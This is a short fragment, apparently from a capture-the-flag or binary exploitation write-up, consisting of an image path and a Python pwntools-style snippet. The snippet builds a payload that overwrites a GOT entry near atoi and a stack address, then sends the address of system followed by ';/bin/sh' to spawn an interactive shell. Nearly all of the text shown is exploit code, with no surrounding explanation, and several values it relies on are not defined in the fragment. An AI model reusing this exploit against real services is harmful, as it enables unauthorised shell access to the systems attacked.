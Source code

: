```python
payload = b'27'+p32(env)+p32(0x1)+p32(atoi_got+0x22)+p32(stack - 0x100 - 0xc)

do(delete,payload)

sh.sendlineafter('> ',p32(system)+b';/bin/sh')

sh.interactive()
```

